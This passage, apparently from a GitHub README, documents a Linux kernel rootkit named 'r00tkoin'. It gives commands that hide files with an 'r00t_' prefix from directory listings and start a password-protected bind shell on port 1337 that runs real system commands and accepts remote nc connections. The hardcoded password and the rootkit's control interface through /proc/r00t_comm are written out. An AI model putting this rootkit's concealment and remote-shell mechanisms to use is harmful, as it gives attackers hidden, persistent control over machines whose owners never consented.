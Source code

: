 ### File Hiding

When file hiding is enabled, files with the `r00t_` prefix will be hidden from directory listings:

```bash
# Create test files
touch r00t_secret.txt normal_file.txt

# Enable file hiding
echo 'r00tkoinFTW1337 filehide' > /proc/r00t_comm

# Files with r00t_ prefix will be hidden
ls -la
```

### Interactive Bind Shell

The bind shell provides **real interactive shell access** with password protection. This executes actual system commands, not simulated responses:

```bash
# Start bind shell
echo 'r00tkoinFTW1337 bindshell' > /proc/r00t_comm

# Connect from local system
nc localhost 1337

# Connect from remote system (network accessible)
nc target_ip 1337

# Authenticate with password
Password: r00tkoinFTW1337

# Real shell commands work:
whoami           # Actual user identification
ps aux           # Real process listing
ls /etc          # Genuine directory listing
cat /proc/version # System information
uname -a         # System details
date             # Current time

# Rootkit-specific commands:
rootkit          # Show rootkit capabilities
status           # Display rootkit status
hidefiles        # Enable file hiding
help             # Show available commands
```

**Safety Features:**
- Command length limits (500 chars max)
- Dangerous command blocking (`rm -rf /`, `shutdown`, etc.)
- Real command execution with output capture

## Testing
